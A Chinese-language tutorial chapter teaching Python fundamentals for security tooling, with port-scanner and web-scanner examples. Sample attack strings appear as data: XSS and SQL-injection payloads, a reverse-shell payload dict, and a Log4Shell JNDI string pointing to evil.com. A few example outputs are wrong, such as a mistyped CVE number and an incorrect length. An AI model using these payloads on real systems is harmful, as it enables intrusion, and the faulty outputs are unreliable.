

## 二、Python语言基础

Python 语言基础是所有安全工具开发的根基。本节从数据类型、控制结构、函数机制、面向对象、异常处理、文件操作、推导式、装饰器、生成器、正则表达式到类型提示，系统覆盖安全开发所需的全部语言核心。每个知识点都配有安全场景下的实战代码，确保学完即可用于渗透测试、漏洞挖掘和安全工具开发。

### 2.1 数据类型与变量

Python 是动态类型语言，变量不需要声明类型，解释器在运行时自动推导。这种特性让安全脚本编写极其灵活——你可以快速拼装 PoC（概念验证代码）而不需要纠结类型声明。但灵活性也意味着你需要理解底层类型系统，否则在处理二进制数据、网络协议时容易踩坑。

#### 2.1.1 基本数据类型

**数值类型**

Python 的数值类型分为三类：整数（int）、浮点数（float）、复数（complex）。安全领域最常用的是整数和浮点数。

```python
# 整数：Python3 的 int 没有大小限制，可以处理任意大的数
# 这在密码学中非常有用——RSA 密钥就是超大整数
port = 80
timeout = 5
rsa_key = 2**2048 - 1  # Python 可以直接处理 2048 位的大数，无需额外库

# 浮点数：IEEE 754 双精度，64位
# 用于计算时间差、概率、评分等
version = 3.11
elapsed_time = 0.035  # 扫描耗时 35ms
score = 85.5

# 复数：在安全领域极少使用，主要用于信号处理
complex_num = 3 + 4j
```

整数的一个重要特性是**任意精度**。Java 的 `BigInteger`、C 的 `long long` 都有位数限制，但 Python 的 `int` 可以无限大。这意味着你可以直接在 Python 中实现 RSA 加解密的数学运算：

```python
# RSA 核心运算：m^e mod n
# Python 可以直接处理数千位的大数
ciphertext = pow(message, public_exponent, modulus)  # 内置三参数 pow 自动使用快速幂模运算
```

**字符串类型**

字符串是安全开发中使用频率最高的数据类型。IP 地址、URL、HTTP 头、payload、日志——几乎所有安全数据都是字符串形式。

```python
# 字符串定义的三种方式
target = "192.168.1.100"
payload = '<script>alert("XSS")</script>'
multiline_sql = """
SELECT * FROM users
WHERE username = 'admin'
AND password = ' OR 1=1 --
"""

# 字符串是不可变的（immutable）
# 任何"修改"操作都是创建新字符串
original = "hello"
modified = original.upper()  # 返回新字符串 "HELLO"，original 不变
```

字符串编码是安全开发的**核心痛点**。Python3 中 `str` 是 Unicode 字符串，`bytes` 是原始字节。网络传输、文件读写、加密操作都需要 `bytes`，混淆两者是新手最常见的错误。

```python
# str 和 bytes 的转换
text = "Hello, 安全!"
encoded = text.encode("utf-8")   # str -> bytes
decoded = encoded.decode("utf-8")  # bytes -> str

# 处理二进制协议数据
header = b"\x89\x50\x4e\x47"  # PNG 文件头
# 如果用 str 会报错或产生错误结果

# 安全场景：URL 编码
import urllib.parse
payload = "admin' OR '1'='1"
encoded_payload = urllib.parse.quote(payload)  # admin%27%20OR%20%271%27%3D%271
```

常用字符串操作速查表：

| 操作 | 方法 | 安全场景示例 |
|------|------|-------------|
| 分割 | `s.split(sep)` | 解析 IP 地址 `"192.168.1.1".split(".")` |
| 连接 | `sep.join(list)` | 拼接路径 `"/".join(parts)` |
| 替换 | `s.replace(old, new)` | 清理输入 `s.replace("'", "\\'")` |
| 查找 | `s.find(sub)` / `sub in s` | 检测关键词 `"script" in payload` |
| 去空白 | `s.strip()` | 清理用户输入 `username.strip()` |
| 前缀/后缀 | `s.startswith()` / `s.endswith()` | 判断协议 `url.startswith("https://")` |
| 格式化 | `f"{var}"` | 构造日志 `f"Port {port} is open"` |
| 大小写 | `s.lower()` / `s.upper()` | 统一比较 `header_name.lower()` |

**f-string 格式化详解**

f-string 是 Python 3.6+ 引入的字符串格式化方式，在安全工具开发中使用最广泛：

```python
# 基础用法
target = "192.168.1.1"
port = 80
url = f"http://{target}:{port}/admin"

# 表达式支持
print(f"扫描耗时: {end_time - start_time:.3f}秒")

# 调试技巧（Python 3.8+）：= 号自动打印变量名和值
password = "secret123"
print(f"{password=}")  # 输出: password='secret123'

# 多行 f-string 构造 HTTP 请求
request = (
    f"GET / HTTP/1.1\r\n"
    f"Host: {target}:{port}\r\n"
    f"User-Agent: Mozilla/5.0\r\n"
    f"\r\n"
)
```

**布尔类型**

布尔值在安全逻辑中无处不在——漏洞是否存在、连接是否成功、权限是否足够。

```python
# 布尔值与逻辑运算
is_vulnerable = True
is_patched = False
requires_auth = True

# and/or/not 组合条件
if is_vulnerable and not is_patched:
    print("目标可利用")

# 短路求值：and 返回第一个假值或最后一个值，or 返回第一个真值或最后一个值
# 安全场景：设置默认值
host = user_input or "127.0.0.1"  # 如果 user_input 为空则用默认值

# 真值判断的陷阱
# 以下值在布尔上下文中都是 False：
# 0, 0.0, "", [], {}, set(), None, False
# 其他所有值都是 True
empty_list = []
if not empty_list:  # 这是对的
    print("列表为空")

# 但要注意：
password_hash = "0"  # 字符串 "0" 是 True！
if password_hash:     # 这会执行
    print("有密码哈希")
```

**None 类型**

`None` 是 Python 中的空值，表示"什么都没有"。在安全工具中常用于表示操作未执行或未获取到结果。

```python
# None 的正确判断方式：用 is，不用 ==
result = None
if result is None:       # ✓ 推荐：is 比较身份（identity）
    print("扫描未执行")

if result == None:       # ✗ 不推荐：== 比较值（equality），可被重写
    print("可能不是预期行为")

# None 在函数默认参数中的陷阱（经典坑）
def add_target(target, targets=None):
    # 正确做法：用 None 作为默认值
    if targets is None:
        targets = []      # 每次调用都创建新列表
    targets.append(target)
    return targets

# 错误做法：
def add_target_bad(target, targets=[]):
    # 默认列表在函数定义时创建一次，所有调用共享同一个列表！
    targets.append(target)
    return targets  # 多次调用会累积结果
```

#### 2.1.2 复合数据类型

**列表（List）**

列表是有序、可变的序列。在安全工具中，列表常用于存储端口列表、扫描结果、payload 集合等。

```python
# 列表创建与基本操作
ports = [22, 80, 443, 8080, 8443]
ports.append(3389)           # 末尾添加
ports.insert(0, 21)          # 指定位置插入
ports.remove(80)             # 按值移除（第一个匹配）
popped = ports.pop()         # 移除并返回最后一个元素
popped_first = ports.pop(0)  # 移除并返回指定索引元素

# 列表切片：安全场景中用于截取数据包的特定部分
data = [0x89, 0x50, 0x4e, 0x47, 0x0d, 0x0a, 0x1a, 0x0a]
file_header = data[:4]       # 前4字节 [0x89, 0x50, 0x4e, 0x47]
remaining = data[4:]         # 第4字节之后
subset = data[2:6]           # 索引2到5

# 列表是引用类型，赋值不会复制
original = [1, 2, 3]
copy_ref = original          # 两个变量指向同一个列表
copy_ref.append(4)           # original 也变成 [1, 2, 3, 4]！

# 安全复制方式
import copy
shallow = copy.copy(original)       # 浅拷贝
deep = copy.deepcopy(original)      # 深拷贝（嵌套对象也会复制）
slice_copy = original[:]            # 切片也是浅拷贝
```

**元组（Tuple）**

元组是不可变的有序序列。不可变性意味着它可以用作字典的键、集合的元素，且在多线程环境下天然线程安全。

```python
# 元组常用于表示固定结构的数据
ip_port = ("192.168.1.100", 80)
credentials = ("admin", "your_password")

# 解包：一行代码提取多个值
host, port = ip_port
username, password = credentials

# 交换变量值（利用元组解包）
a, b = b, a

# 元组作为函数返回值（返回多个结果）
def parse_url(url):
    """返回 (协议, 主机, 端口, 路径)"""
    from urllib.parse import urlparse
    parsed = urlparse(url)
    return (parsed.scheme, parsed.hostname, parsed.port, parsed.path)

# 命名元组：更清晰的结构化数据
from collections import namedtuple
ScanResult = namedtuple("ScanResult", ["host", "port", "status", "service"])
result = ScanResult(host="192.168.1.1", port=22, status="open", service="SSH")
print(result.host)     # 通过名称访问，比索引更清晰
print(result[0])       # 也支持索引访问
```

**字典（Dictionary）**

字典是键值对的集合，基于哈希表实现，查找时间复杂度 O(1)。在安全工具中，字典是最核心的数据结构——HTTP 头、扫描结果、配置项、漏洞数据库都是字典。

```python
# 字典基础操作
service = {
    "name": "http",
    "port": 80,
    "version": "Apache/2.4.41",
    "os": "Ubuntu"
}

# 安全取值：get 避免 KeyError
version = service.get("version", "unknown")  # 存在则返回值，不存在返回默认值
banner = service["banner"]  # 键不存在会抛出 KeyError

# 字典合并（Python 3.9+）
defaults = {"timeout": 5, "retries": 3}
user_config = {"timeout": 10}
merged = defaults | user_config  # {'timeout': 10, 'retries': 3}

# 字典推导式（后面会详细讲）
port_service_map = {port: get_service(port) for port in open_ports}

# 嵌套字典：表示复杂的扫描结果
scan_results = {
    "192.168.1.1": {
        "ports": {22: "open", 80: "open", 443: "closed"},
        "os": "Linux",
        "hostname": "web-server"
    },
    "192.168.1.2": {
        "ports": {3389: "open"},
        "os": "Windows",
        "hostname": "dc-server"
    }
}

# 安全访问嵌套字典的模式
def safe_nested_get(d, *keys, default=None):
    """安全地访问嵌套字典，任意层级缺失都返回默认值"""
    for key in keys:
        if isinstance(d, dict):
            d = d.get(key, default)
        else:
            return default
    return d

os_info = safe_nested_get(scan_results, "192.168.1.1", "os")  # "Linux"
missing = safe_nested_get(scan_results, "10.0.0.1", "os")     # None
```

**集合（Set）**

集合是无序、不重复的元素集合，基于哈希表实现。集合的核心价值在于**去重**和**集合运算**——在安全场景中，合并扫描结果、计算差异、去重 IP 列表等操作都依赖集合。

```python
# 集合操作
open_ports_a = {22, 80, 443, 8080}
open_ports_b = {80, 443, 3306, 6379}

# 集合运算
common = open_ports_a & open_ports_b       # 交集: {80, 443}
all_ports = open_ports_a | open_ports_b    # 并集: {22, 80, 443, 3306, 6379, 8080}
only_a = open_ports_a - open_ports_b       # 差集: {22, 8080}
diff = open_ports_a ^ open_ports_b         # 对称差集: {22, 3306, 6379, 8080}

# 去重场景：合并多个来源的 IP
ips_from_log = {"192.168.1.1", "192.168.1.2", "10.0.0.1"}
ips_from_scan = {"192.168.1.1", "10.0.0.5", "172.16.0.1"}
all_ips = ips_from_log | ips_from_scan  # 自动去重

# 子集判断
common_ports = {22, 80, 443}
target_ports = {22, 80, 443, 8080, 3306}
if common_ports.issubset(target_ports):
    print("目标开放了所有常见端口")

# 集合推导式
port_strings = {"22", "80", "443", "abc", "8080"}
valid_ports = {int(p) for p in port_strings if p.isdigit()}  # {22, 80, 443, 8080}
```

**数据类型选择指南**

| 场景 | 推荐类型 | 原因 |
|------|---------|------|
| 有序序列，需要增删改 | list | 有序、可变 |
| 固定数据，不需要修改 | tuple | 不可变、可哈希、线程安全 |
| 键值映射 | dict | O(1) 查找 |
| 去重或集合运算 | set | 自动去重、集合运算高效 |
| 需要保序且去重 | dict（Python 3.7+） | dict 保序，用键去重 |

### 2.2 控制结构

控制结构决定程序的执行流程。安全工具中的逻辑判断、循环扫描、条件过滤全靠控制结构实现。

#### 2.2.1 条件语句

**if-elif-else**

```python
# 端口服务识别
port = 80
if port == 80:
    service = "HTTP"
elif port == 443:
    service = "HTTPS"
elif port == 22:
    service = "SSH"
elif port in (3306, 5432, 27017):
    service = "Database"
elif 1024 <= port <= 65535:
    service = "Dynamic/Private"
else:
    service = "Unknown"

# match-case（Python 3.10+）：结构化模式匹配
# 比 elif 链更清晰，支持解构
def classify_severity(cvss_score):
    match cvss_score:
        case s if s >= 9.0:
            return "Critical"
        case s if s >= 7.0:
            return "High"
        case s if s >= 4.0:
            return "Medium"
        case s if s >= 0.1:
            return "Low"
        case _:
            return "None"
```

**三元表达式**

```python
# 一行条件赋值
status = "open" if port in open_ports else "closed"
severity = "critical" if cvss >= 9.0 else "high" if cvss >= 7.0 else "medium"
action = "exploit" if is_vulnerable else "report"
```

**条件表达式的常见错误**

```python
# 错误 1：用 == 比较 None
if result == None:   # ✗ 可以被 __eq__ 重写
    pass
if result is None:   # ✓ 比较对象身份

# 错误 2：链式比较的陷阱
x = 5
if 1 < x < 10:      # ✓ Python 支持链式比较，等价于 1 < x and x < 10
    print("在范围内")

# 错误 3：in 操作符的歧义
if "key" in my_dict:     # 检查键是否存在（不是值）
    value = my_dict["key"]

# 错误 4：布尔运算的短路可能导致意外
# or 返回第一个真值
port = user_input or 80  # 如果 user_input 是 0 或 ""，会错误地返回 80
```

#### 2.2.2 循环语句

**for 循环**

```python
# 遍历列表
ports = [22, 80, 443, 8080]
for port in ports:
    result = scan_port(target, port)
    print(f"Port {port}: {'open' if result else 'closed'}")

# enumerate：同时获取索引和值
for i, port in enumerate(ports):
    print(f"[{i+1}/{len(ports)}] Scanning port {port}")

# zip：并行遍历多个序列
hosts = ["192.168.1.1", "192.168.1.2", "192.168.1.3"]
roles = ["web-server", "db-server", "file-server"]
for host, role in zip(hosts, roles):
    print(f"{role}: {host}")

# range：生成数字序列
for port in range(1, 1025):  # 扫描 1-1024 端口
    scan_port(target, port)

# 遍历字典
services = {22: "SSH", 80: "HTTP", 443: "HTTPS"}
for port, service in services.items():
    print(f"Port {port}: {service}")

# for-else：循环正常结束（没有 break）时执行 else
for port in suspicious_ports:
    if is_exploitable(target, port):
        print(f"找到可利用端口: {port}")
        break
else:
    print("未发现可利用端口")  # 只有循环完整执行（没 break）才到这里
```

**while 循环**

```python
# 带重试的连接逻辑
attempts = 0
max_attempts = 3
while attempts < max_attempts:
    try:
        result = connect_to_target(target, port)
        break  # 成功则退出
    except ConnectionRefusedError:
        attempts += 1
        time.sleep(2 ** attempts)  # 指数退避
else:
    print(f"连接失败，已重试 {max_attempts} 次")

# 死循环 + break 模式
while True:
    command = input("shell> ")
    if command.strip().lower() in ("exit", "quit"):
        break
    output = execute_command(command)
    print(output)
```

**循环控制与推导式**

```python
# break：跳出整个循环
# continue：跳过本次迭代，继续下一次
# pass：占位符，什么都不做

for port in range(1, 65536):
    if port in known_closed:
        continue  # 跳过已知关闭的端口
    if port == 9999:
        break     # 扫描到 9999 就停
    scan_port(target, port)

# 列表推导式：一行代码替代多行循环
# 基础语法: [expression for item in iterable if condition]
open_ports = [port for port in range(1, 1025) if is_port_open(target, port)]

# 字典推导式
port_status = {port: "open" for port in open_ports}

# 集合推导式
unique_services = {get_service(port) for port in open_ports}

# 嵌套推导式：生成所有 IP 组合
import ipaddress
network = ipaddress.ip_network("192.168.1.0/24")
all_targets = [str(ip) for ip in network.hosts()]

# 生成器表达式（用圆括号，惰性求值，节省内存）
total = sum(is_port_open(target, port) for port in range(1, 65536))
```

### 2.3 函数与模块

#### 2.3.1 函数定义与参数

函数是代码复用的基本单元。安全工具中，扫描逻辑、payload 生成、报告输出都应该封装为函数。

```python
# 函数基础
def scan_port(host, port, timeout=1):
    """扫描指定主机的端口
    
    Args:
        host: 目标主机 IP 或域名
        port: 目标端口号
        timeout: 超时时间（秒）
    
    Returns:
        bool: 端口是否开放
    """
    import socket
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        result = sock.connect_ex((host, port))
        sock.close()
        return result == 0
    except (socket.timeout, OSError):
        return False
```

**参数类型详解**

Python 函数参数有五种类型，理解它们对编写灵活的安全工具至关重要：

```python
# 1. 位置参数：必须按顺序传递
def connect(host, port):
    pass

# 2. 默认参数：有默认值，调用时可省略
def scan(host, port=80, timeout=5, verbose=False):
    pass

# 3. 可变位置参数 *args：接收任意数量的位置参数，打包为元组
def scan_multiple(host, *ports):
    """扫描多个端口"""
    results = {}
    for port in ports:
        results[port] = scan_port(host, port)
    return results

scan_multiple("192.168.1.1", 22, 80, 443, 8080)

# 4. 可变关键字参数 **kwargs：接收任意数量的关键字参数，打包为字典
def create_payload(**kwargs):
    """动态创建 payload"""
    payload = {
        "type": kwargs.get("type", "reverse_shell"),
        "host": kwargs.get("host", "0.0.0.0"),
        "port": kwargs.get("port", 4444),
        "encoding": kwargs.get("encoding", "base64")
    }
    return payload

create_payload(type="bind_shell", port=9999)

# 5. 仅限关键字参数：* 后面的参数必须用关键字传递
def exploit(target, *, method="GET", headers=None, data=None):
    """* 号强制 method/headers/data 必须用关键字"""
    pass

exploit("http://target.com", method="POST", data={"key": "value"})
```

**参数解包**

```python
# 字典解包为关键字参数
config = {"host": "192.168.1.1", "port": 22, "timeout": 3}
connect(**config)  # 等价于 connect(host="192.168.1.1", port=22, timeout=3)

# 列表/元组解包为位置参数
target_info = ("192.168.1.1", 80)
connect(*target_info)  # 等价于 connect("192.168.1.1", 80)
```

**Lambda 函数**

```python
# lambda 是匿名函数，适合简短的一次性逻辑
# 语法: lambda 参数: 表达式

# 排序场景
scan_results = [
    {"port": 80, "response_time": 0.5},
    {"port": 22, "response_time": 0.1},
    {"port": 443, "response_time": 0.3}
]
scan_results.sort(key=lambda r: r["response_time"])  # 按响应时间排序

# filter 过滤
open_results = list(filter(lambda r: r["status"] == "open", scan_results))

# map 转换
port_list = list(map(lambda r: r["port"], scan_results))

# 实际上推导式通常比 lambda + filter/map 更清晰：
open_results = [r for r in scan_results if r["status"] == "open"]
port_list = [r["port"] for r in scan_results]
```

#### 2.3.2 闭包与装饰器

**闭包**

闭包是函数与其引用的外部变量的组合。在安全工具中，闭包常用于创建工厂函数和回调。

```python
def make_scanner(timeout):
    """闭包：内部函数捕获了外部变量 timeout"""
    def scan(host, port):
        import socket
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)  # 使用外部的 timeout
        result = sock.connect_ex((host, port))
        sock.close()
        return result == 0
    return scan

fast_scanner = make_scanner(0.5)   # 超时 0.5 秒的扫描器
slow_scanner = make_scanner(5.0)   # 超时 5 秒的扫描器
fast_scanner("192.168.1.1", 80)
```

**装饰器**

装饰器是 Python 中最强大的语法特性之一，本质是一个接收函数并返回函数的高阶函数。安全工具中广泛用于日志记录、权限检查、重试机制、性能测量。

```python
import time
import functools

# 基础装饰器：记录函数执行时间
def timer(func):
    @functools.wraps(func)  # 保留原函数的名称和文档
    def wrapper(*args, **kwargs):
        start = time.time()
        result = func(*args, **kwargs)
        elapsed = time.time() - start
        print(f"[TIMER] {func.__name__} 耗时 {elapsed:.3f}秒")
        return result
    return wrapper

# 带参数的装饰器
def retry(max_attempts=3, delay=1):
    """自动重试装饰器"""
    def decorator(func):
        @functools.wraps(func)
        def wrapper(*args, **kwargs):
            for attempt in range(max_attempts):
                try:
                    return func(*args, **kwargs)
                except Exception as e:
                    if attempt == max_attempts - 1:
                        raise
                    print(f"[RETRY] {func.__name__} 第{attempt+1}次失败: {e}，{delay}秒后重试")
                    time.sleep(delay)
        return wrapper
    return decorator

# 使用装饰器
@timer
@retry(max_attempts=3, delay=2)
def scan_port(host, port):
    """扫描端口（自动计时 + 自动重试）"""
    import socket
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(1)
    result = sock.connect_ex((host, port))
    sock.close()
    return result == 0
```

#### 2.3.3 模块与包

**模块导入机制**

```python
# 标准库：Python 自带，无需安装
import socket          # 网络通信
import struct          # 二进制数据打包
import hashlib         # 哈希计算
import base64          # 编码
import json            # JSON 解析
import subprocess      # 调用系统命令
import threading       # 多线程
import argparse        # 命令行参数解析
from pathlib import Path  # 文件路径操作
from datetime import datetime

# 第三方库：需要 pip install
import requests        # HTTP 请求
from scapy.all import *  # 网络包构造与嗅探
import nmap            # Nmap 封装
from bs4 import BeautifulSoup  # HTML 解析

# 导入方式对比
import os.path              # 通过模块访问: os.path.join()
from os.path import join    # 直接使用: join()
from os import path         # 通过子模块访问: path.join()

# 避免通配符导入（除非明确需要）
from scapy.all import *     # scapy 本身设计如此，但其他库不推荐
```

**包结构设计**

一个规范的安全工具项目结构：

```text
my_security_tool/
├── __init__.py              # 包标识文件
├── __main__.py              # 允许 python -m my_security_tool 运行
├── cli.py                   # 命令行入口
├── config.py                # 配置管理
├── scanner/
│   ├── __init__.py
│   ├── port_scanner.py      # 端口扫描模块
│   ├── web_scanner.py       # Web 扫描模块
│   └── vuln_scanner.py      # 漏洞扫描模块
├── exploit/
│   ├── __init__.py
│   ├── payload.py           # Payload 生成
│   └── generator.py         # Exploit 生成器
├── utils/
│   ├── __init__.py
│   ├── network.py           # 网络工具函数
│   ├── encoding.py          # 编码/解码工具
│   └── logger.py            # 日志配置
├── output/
│   ├── __init__.py
│   └── report.py            # 报告生成（HTML/PDF/JSON）
├── tests/                   # 测试目录
│   ├── test_scanner.py
│   └── test_exploit.py
├── requirements.txt         # 依赖列表
├── setup.py                 # 安装脚本
└── README.md
```

**虚拟环境与依赖管理**

```bash
# 创建虚拟环境（每个项目独立隔离依赖）
python3 -m venv .venv
source .venv/bin/activate       # Linux/macOS
# .venv\Scripts\activate        # Windows

# 安装依赖
pip install requests scapy python-nmap
pip install -r requirements.txt

# 导出依赖
pip freeze > requirements.txt

# 常见错误：不要用 sudo pip install，会污染系统 Python
# 如果全局安装了 hermes-agent 等工具，虚拟环境可以避免版本冲突
```

### 2.4 面向对象编程

面向对象编程（OOP）在安全工具开发中不是必须的，但当工具复杂度上升时，OOP 能显著提升代码的可维护性和可扩展性。

#### 2.4.1 类与对象

```python
class Scanner:
    """扫描器基类：定义通用接口和共享逻辑"""
    
    # 类变量：所有实例共享
    DEFAULT_TIMEOUT = 5
    VERSION = "1.0"
    
    def __init__(self, target, ports=None, timeout=None):
        """
        Args:
            target: 扫描目标（IP 或域名）
            ports: 端口列表，默认 [22, 80, 443]
            timeout: 超时时间，默认使用类变量 DEFAULT_TIMEOUT
        """
        self.target = target                  # 实例变量
        self.ports = ports or [22, 80, 443]   # 注意：不要用 mutable 默认值
        self.timeout = timeout or self.DEFAULT_TIMEOUT
        self.results = {}                     # 存储扫描结果
    
    def scan(self):
        """执行扫描（子类必须实现）"""
        raise NotImplementedError("子类必须实现 scan 方法")
    
    def report(self):
        """生成扫描报告"""
        print(f"\n{'='*50}")
        print(f"扫描报告: {self.target}")
        print(f"扫描器版本: {self.VERSION}")
        print(f"{'='*50}")
        for port, status in sorted(self.results.items()):
            symbol = "✓" if "open" in str(status) else "✗"
            print(f"  {symbol} Port {port}: {status}")
        open_count = sum(1 for s in self.results.values() if "open" in str(s))
        print(f"\n共扫描 {len(self.results)} 个端口，{open_count} 个开放")
    
    def __repr__(self):
        return f"{self.__class__.__name__}(target='{self.target}', ports={self.ports})"
```

**继承与多态**

```python
import socket
import requests

class PortScanner(Scanner):
    """TCP 端口扫描器"""
    
    def scan(self):
        """使用 TCP connect 扫描端口"""
        for port in self.ports:
            try:
                sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                sock.settimeout(self.timeout)
                result = sock.connect_ex((self.target, port))
                self.results[port] = "open" if result == 0 else "closed"
                sock.close()
            except socket.timeout:
                self.results[port] = "filtered (timeout)"
            except OSError as e:
                self.results[port] = f"error: {e}"


class WebScanner(Scanner):
    """Web 服务扫描器"""
    
    def __init__(self, target, ports=None, **kwargs):
        # 扩展父类构造函数
        super().__init__(target, ports or [80, 443, 8080, 8443], **kwargs)
    
    def scan(self):
        """检测 Web 服务和状态码"""
        for port in self.ports:
            for scheme in ("http", "https"):
                url = f"{scheme}://{self.target}:{port}"
                try:
                    resp = requests.get(url, timeout=self.timeout, verify=False)
                    server = resp.headers.get("Server", "unknown")
                    self.results[port] = f"HTTP {resp.status_code} ({server})"
                    break  # 一个 scheme 成功就够了
                except requests.exceptions.SSLError:
                    continue
                except requests.exceptions.ConnectionError:
                    self.results[port] = "unreachable"
                    break
                except requests.exceptions.Timeout:
                    self.results[port] = "timeout"
                    break

# 多态：同一个接口，不同的实现
scanners = [
    PortScanner("192.168.1.1", [22, 80, 443]),
    WebScanner("192.168.1.1"),
]
for scanner in scanners:
    scanner.scan()      # 调用各自的 scan 实现
    scanner.report()    # 调用共享的 report 方法
```

#### 2.4.2 魔术方法（Dunder Methods）

魔术方法以双下划线开头和结尾，让自定义类支持 Python 内置操作。

```python
class Exploit:
    """Exploit 对象：展示魔术方法的使用"""
    
    def __init__(self, name, target, payload=None):
        self.name = name
        self.target = target
        self.payload = payload or ""
    
    def __str__(self):
        """str() 和 print() 时调用：用户友好的表示"""
        return f"[Exploit] {self.name} -> {self.target}"
    
    def __repr__(self):
        """repr() 和交互式终端显示：开发者友好的表示"""
        return f"Exploit(name='{self.name}', target='{self.target}')"
    
    def __len__(self):
        """len() 时调用：返回 payload 长度"""
        return len(self.payload)
    
    def __eq__(self, other):
        """== 比较时调用"""
        if not isinstance(other, Exploit):
            return False
        return self.name == other.name and self.target == other.target
    
    def __hash__(self):
        """hash() 时调用：实现 __eq__ 后必须实现，否则不能放入集合/字典"""
        return hash((self.name, self.target))
    
    def __bool__(self):
        """bool() 时调用：有 payload 为 True"""
        return bool(self.payload)
    
    def __contains__(self, item):
        """in 操作符时调用"""
        return item in self.payload
    
    def __getitem__(self, key):
        """索引操作时调用：exp[0] 返回 payload 的第 key 个字符"""
        return self.payload[key]

# 使用示例
exp = Exploit("CVE-2021-44228", "192.168.1.1", "${jndi:ldap://evil.com/a}")
print(exp)           # [Exploit] CVE-2021-4428 -> 192.168.1.1
print(len(exp))      # 32
print(bool(exp))     # True
print("jndi" in exp) # True
print(exp[0:5])      # ${jnd
```

#### 2.4.3 上下文管理器

上下文管理器通过 `with` 语句确保资源正确释放。在安全工具中处理网络连接、文件操作时非常重要。

```python
# 自定义上下文管理器
class Connection:
    """安全的网络连接上下文管理器"""
    
    def __init__(self, host, port, timeout=5):
        self.host = host
        self.port = port
        self.timeout = timeout
        self.sock = None
    
    def __enter__(self):
        """进入 with 块时调用"""
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.connect((self.host, self.port))
        return self.sock  # 返回给 as 变量
    
    def __exit__(self, exc_type, exc_val, exc_tb):
        """退出 with 块时调用（无论是否异常）"""
        if self.sock:
            self.sock.close()
        # 返回 True 会吞掉异常，返回 False/None 会传播异常
        return False

# 使用
with Connection("192.168.1.1", 80) as sock:
    sock.send(b"GET / HTTP/1.1\r\nHost: target\r\n\r\n")
    response = sock.recv(4096)
# 退出 with 块后，sock 自动关闭

# contextlib 简化写法
from contextlib import contextmanager

@contextmanager
def connection(host, port, timeout=5):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(timeout)
    try:
        sock.connect((host, port))
        yield sock
    finally:
        sock.close()  # 无论是否异常都会关闭
```

### 2.5 异常处理

异常处理是编写健壮安全工具的关键。网络扫描、漏洞利用、文件操作随时可能失败——你的工具不应该因为一个端口超时就整个崩溃。

#### 2.5.1 异常捕获机制

```python
# 基础结构
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(1)
    sock.connect((host, port))
except socket.timeout:
    # 捕获特定异常
    print(f"端口 {port} 连接超时")
except ConnectionRefusedError:
    # 另一个特定异常
    print(f"端口 {port} 连接被拒绝")
except OSError as e:
    # 捕获一类异常并获取错误信息
    print(f"网络错误: {e}")
except Exception as e:
    # 兜底捕获（不推荐在最外层使用，会隐藏 bug）
    print(f"未知错误: {e}")
else:
    # 没有异常时执行
    print(f"端口 {port} 连接成功")
finally:
    # 无论如何都执行（清理资源）
    sock.close()
```

#### 2.5.2 常见异常类型

| 异常 | 触发条件 | 安全场景 |
|------|---------|---------|
| `ConnectionRefusedError` | 目标端口关闭 | 端口扫描 |
| `socket.timeout` | 连接超时 | 网络扫描 |
| `socket.gaierror` | DNS 解析失败 | 域名枚举 |
| `PermissionError` | 权限不足 | 原始套接字、端口绑定 |
| `FileNotFoundError` | 文件不存在 | 字典文件读取 |
| `json.JSONDecodeError` | JSON 格式错误 | API 响应解析 |
| `UnicodeDecodeError` | 编码错误 | 二进制数据处理 |
| `KeyboardInterrupt` | Ctrl+C 中断 | 用户中断扫描 |
| `ValueError` | 值不合法 | 端口号范围检查 |

#### 2.5.3 自定义异常

```python
class ScanError(Exception):
    """扫描器基础异常"""
    pass

class TargetUnreachableError(ScanError):
    """目标不可达"""
    def __init__(self, host, port):
        self.host = host
        self.port = port
        super().__init__(f"目标 {host}:{port} 不可达")

class AuthenticationError(ScanError):
    """认证失败"""
    pass

class RateLimitError(ScanError):
    """触发速率限制"""
    def __init__(self, retry_after=60):
        self.retry_after = retry_after
        super().__init__(f"触发速率限制，请 {retry_after} 秒后重试")

# 使用自定义异常
def safe_scan(host, port):
    try:
        return scan_port(host, port)
    except socket.timeout:
        raise TargetUnreachableError(host, port)
    except ConnectionRefusedError:
        return False  # 端口关闭，不是错误
```

#### 2.5.4 异常处理最佳实践

```python
# 原则 1：捕获尽可能具体的异常
# ✗ 不要这样
try:
    result = some_operation()
except Exception:
    pass  # 吞掉所有异常，包括 KeyboardInterrupt

# ✓ 应该这样
try:
    result = some_operation()
except (socket.timeout, ConnectionRefusedError) as e:
    log.warning(f"连接失败: {e}")
    result = None

# 原则 2：不要用异常控制正常流程
# ✗ 慢且不清晰
try:
    value = my_dict[key]
except KeyError:
    value = default
# ✓ 使用 get
value = my_dict.get(key, default)

# 原则 3：异常链（Python 3）
try:
    response = requests.get(url, timeout=5)
except requests.exceptions.Timeout:
    raise ScanError(f"扫描 {url} 超时") from None  # from None 隐藏原始异常
    # 或者 from e 保留原始异常链

